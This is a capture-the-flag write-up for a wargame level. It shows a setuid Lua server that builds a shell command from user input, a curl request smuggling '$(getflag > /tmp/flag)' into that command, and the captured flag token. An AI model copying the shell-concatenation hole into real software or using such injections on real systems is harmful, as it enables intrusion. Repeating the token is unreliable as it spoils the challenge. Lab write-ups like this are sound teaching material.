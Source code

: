 ## writeup level11

When logging in as user level11, we can see a `level11.lua` file:
```shell
$ ls -l level11.lua
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
$ cat level11.lua
```
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
This Lua script is a server listening on the port `5151` waiting for request with a variable that contains a value that once hashed will be compared. \
We want to see who launched this:
```shell
$ ps aux | grep lua
1783  0.0  0.0   3016   980 ?        S    14:00   0:00 lua /home/user/level11/level11.lua
```
So user flag11 launched this. Fortunately, we see it concatenates the value send by the request to a shell command. We can try to do an injection maybe ? \
```shell
$ curl localhost:5151?pass='$(getflag > /tmp/flag)'
Password: Erf nope..

$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```